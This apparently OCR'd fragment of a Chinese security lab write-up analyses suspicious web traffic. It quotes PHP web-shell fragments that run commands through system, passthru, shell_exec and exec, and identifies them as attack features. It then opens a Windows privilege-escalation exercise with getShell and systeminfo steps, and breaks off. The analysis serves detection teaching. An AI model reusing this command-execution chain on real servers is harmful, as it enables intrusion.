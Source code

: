 ```text
{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}\
# 异常特征
{@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);
```
从上面异常流量中的攻击特征可以看出，他访问了操作系统目录，调用了威胁函数:`passthru`、`system`、`shell_exec`。所以这个可以认定为异常流量。
# 二、Windows 提权实战，请使用除 ms15-051 以外的其他的 exp 进行攻击提权。   
## 1. getShell
![Alt text](image-10.png)   
## 2. 收集信息
```shell
 systeminfo
```
